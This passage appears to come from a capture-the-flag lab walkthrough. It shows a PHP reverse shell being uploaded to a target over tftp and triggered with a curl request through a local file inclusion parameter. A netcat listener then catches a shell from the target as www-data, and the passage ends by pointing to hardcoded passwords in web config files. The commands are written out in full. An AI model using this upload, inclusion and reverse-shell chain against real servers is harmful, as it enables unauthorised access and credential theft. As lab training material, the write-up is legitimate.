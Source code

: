 Edit the IP and Port fields in the reverse shell script.

![](./attachments/Pasted%20image%2020220417183945.png)

Now we can upload it to the server using `tftp`.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ tftp 10.129.95.185
tftp> put shell.php
Sent 5683 bytes in 0.8 seconds
```

The file is uploaded, now for the execution part of it.

First, we need to set up netcat to catch the incoming connection.

```console 
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

And then execution of the script via `curl`, it would work just as well via the browser URL field.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.129.95.185/?file=/var/lib/tftpboot/shell.php
```

In the netcat terminal, we get an incoming connection. We are in!

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.95.185] 45574
Linux included 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 16:46:24 up  1:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We need to escalate our privileges if we want to get access to the flags. The `/var/www/html` directory of a web server often contains passwords hardcoded into configuration files.
